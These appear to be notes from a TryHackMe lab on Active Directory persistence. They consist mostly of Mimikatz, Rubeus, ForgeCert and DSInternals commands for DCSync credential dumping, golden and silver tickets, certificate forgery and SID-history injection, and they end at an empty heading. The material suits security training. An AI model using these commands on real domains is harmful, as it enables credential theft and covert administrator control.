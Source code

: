 # Persisting Active Directory

### Persistence through Credentials

```batch
lsadump::dcsync /domain:za.tryhackme.loc /user:<Your low-privilege AD Username>
```

DC sync every single account. To do this, we will have to enable logging on Mimikatz:

```batch
log <username>_dcdump.txt 
```

DC Sync all accounts

```batch
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all
```

### Persistence through Tickets

Command to generate Golden Ticket

```batch
mimikatz # kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```

Command to generate SiIver Ticket

```batch
mimikatz # kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```

### Persistence through Certificate

Command to view certificates stored on the DC

```batch
crypto::certificates /systemstore:local_machine
```

some of these certificates were set not to allow us to export the key. Without this private key, we would not be able to generate new certificates. Luckily, Mimikatz allows us to patch memory to make these keys exportable

```batch
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz # crypto::cng
"KeyIso" service patched
```

With these services patched, we can use Mimikatz to export the certificates

```batch
crypto::certificates /systemstore:local_machine /export
```

we have the private key and root CA certificate, we can use the SpectorOps [ForgeCert](https://github.com/GhostPack/ForgeCert) tool to forge a Client Authenticate certificate for any user we want

```batch
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 
```

We can use Rubeus to request a TGT using the certificate to verify that the certificate is trusted

<pre class="language-batch"><code class="lang-batch"><strong>Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.x.101
</strong></code></pre>

Now we can use Mimikatz to load the TGT and authenticate

```batch
mimikatz # kerberos::ptt administrator.kirbi
```

### Persistence through SID History

To get sid of  Domain Admin group

```markup
PS C:\Users\Administrator.ZA> Get-ADGroup "Domain Admins"
```

To set SID to low Privelaged Account

We could use something like Mimikatz to add SID history. However, the latest version of Mimikatz has a flaw that does not allow it to patch LSASS to update SID history. Hence we need to use something else. In this case, we will use the [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) tools to directly patch the ntds.dit file, the AD database where all information is stored

```markup
PS C:\Users\Administrator.ZA>Stop-Service -Name ntds -force 
PS C:\Users\Administrator.ZA> Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit 
PS C:\Users\Administrator.ZA>Start-Service -Name ntds 
```

### Persistence through Group Membership

